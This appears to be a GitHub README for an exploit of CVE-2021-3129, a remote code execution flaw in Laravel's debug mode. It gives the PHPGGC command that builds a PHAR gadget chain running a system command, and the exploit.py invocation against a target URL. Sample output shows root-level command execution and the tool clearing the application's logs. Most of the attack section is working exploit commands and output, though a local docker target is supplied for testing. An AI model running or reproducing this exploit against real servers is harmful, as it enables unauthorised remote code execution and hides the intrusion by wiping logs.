 # Description

Exploit for CVE-2021-3129  

# Requirements

[PHPGGC: PHP Generic Gadget Chains](https://github.com/ambionics/phpggc)

# Usage

## Build target

```bash
$ cd target
$ docker-compose up -d
```

## Exploit

```bash
$ php -d 'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id
$ python3 exploit.py http://localhost:8000 /tmp/exploit.phar 
[+] Log file : /src/storage/logs/laravel.log
────────────────────────────────────────
[*] Padding head: False, Padding tail: False
[+] Logs cleared!
[+] Successfully converted to PHAR!
[+] PHAR triggered!
[+] Response: uid=0(root) gid=0(root) groups=0(root) ...

[+] Logs cleared!
────────────────────────────────────────
[*] Padding head: False, Padding tail: True
[+] Logs cleared!
[+] Successfully converted to PHAR!
[+] PHAR triggered!
[+] Response: 
[+] Logs cleared!
────────────────────────────────────────
[*] Padding head: True, Padding tail: False
[+] Logs cleared!
[+] Successfully converted to PHAR!
[+] PHAR triggered!
[+] Response: 
[+] Logs cleared!
────────────────────────────────────────
[*] Padding head: True, Padding tail: True
[+] Logs cleared!
[+] Successfully converted to PHAR!
[+] PHAR triggered!
[+] Response: uid=0(root) gid=0(root) groups=0(root) ...

[+] Logs cleared!
```

# References:

[Laravel <= v8.4.2 debug mode: Remote code execution](https://www.ambionics.io/blog/laravel-debug-rce)